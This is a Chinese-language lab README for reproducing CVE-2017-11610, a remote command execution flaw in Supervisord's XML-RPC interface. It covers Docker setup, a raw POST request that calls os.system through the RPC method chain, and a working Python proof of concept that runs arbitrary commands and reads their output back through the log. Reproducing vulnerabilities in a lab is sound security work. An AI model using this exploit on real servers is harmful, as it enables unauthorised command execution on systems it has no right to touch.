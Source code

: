 # Supervisord XML-RPC 远程命令执行漏洞（CVE-2017-11610）

Supervisord 是一个用于 Unix 类操作系统的进程控制系统。

在 Supervisord 3.0.1，3.1.4，3.2.4，3.3.3 版本之前，在其 XML-RPC 接口中存在一个远程代码执行漏洞，攻击者可以通过特制的 XML-RPC 请求执行任意命令。

参考链接：

- https://www.leavesongs.com/PENETRATION/supervisord-RCE-CVE-2017-11610.html
- https://blogs.securiteam.com/index.php/archives/3348
- https://github.com/Supervisor/supervisor/commit/90c5df80777bfec03d041740465027f83d22e27b

## 环境搭建

执行如下命令启动 Supervisord 3.3.2：

```
docker compose build
docker compose up -d
```

环境启动后，访问`http://your-ip:9001`即可查看Supervisord的页面。

## 漏洞复现

发送如下请求，即可执行任意命令：

```
POST /RPC2 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 213

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.warnings.linecache.os.system</methodName>
<params>
<param>
<string>touch /tmp/success</string>
</param>
</params>
</methodCall>
```

![](01.png)

### 关于直接回显的POC

@Ricter 在微博上提出的一个思路，甚是有效，就是将命令执行的结果写入log文件中，再调用Supervisord自带的readLog方法读取log文件，将结果读出来。

写了个简单的POC [poc.py](poc.py)：

```python
#!/usr/bin/env python3
import xmlrpc.client
import sys


target = sys.argv[1]
command = sys.argv[2]
with xmlrpc.client.ServerProxy(target) as proxy:
    old = getattr(proxy, 'supervisor.readLog')(0,0)

    logfile = getattr(proxy, 'supervisor.supervisord.options.logfile.strip')()
    getattr(proxy, 'supervisor.supervisord.options.warnings.linecache.os.system')('{} | tee -a {}'.format(command, logfile))
    result = getattr(proxy, 'supervisor.readLog')(0,0)

    print(result[len(old):])
```

使用Python3执行并获取结果：`./poc.py "http://your-ip:9001/RPC2" "command"`：

![](02.png)
